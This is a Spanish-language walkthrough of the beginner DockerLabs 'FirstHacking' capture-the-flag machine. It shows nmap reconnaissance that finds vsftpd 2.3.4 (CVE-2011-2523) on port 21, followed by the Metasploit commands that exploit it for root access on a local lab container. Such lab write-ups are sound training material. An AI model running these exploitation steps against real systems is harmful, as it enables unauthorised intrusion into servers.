 Machine name: First haking<br>
plataforma: https://dockerlabs.es/#/<br>
Dificultad: Muy facil<br>
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw<br>
Autor: El pinguino de Mario<br>

Herramientas:
- Ping
- NMAP
- Metasploit

Máquina: <br>
![[image]](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Firsthacking%20machine.png) <br>
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```

Despliegue: <br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Despliegue.png) <br>
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Ping%20para%20ver%20conectividad.png)<br>
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmpa%20reconocimiento.png) <br>

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmap%20con%20exploit%20al%20puerto%2021.png) <br>
tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metasploit%20encontrando%20el%20sploit.png) <br>


metaesploit configuramos el IP destino:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metaesploit%20configuracion%20de%20la%20IP%20del%20host.png)


Una vez configurado el metasploit lanzamos run para lanzar el ataque
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Correr%20metaesploit.png)
conseguimos acceso con el usuario root:<br>

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Usuario%20Root.png)
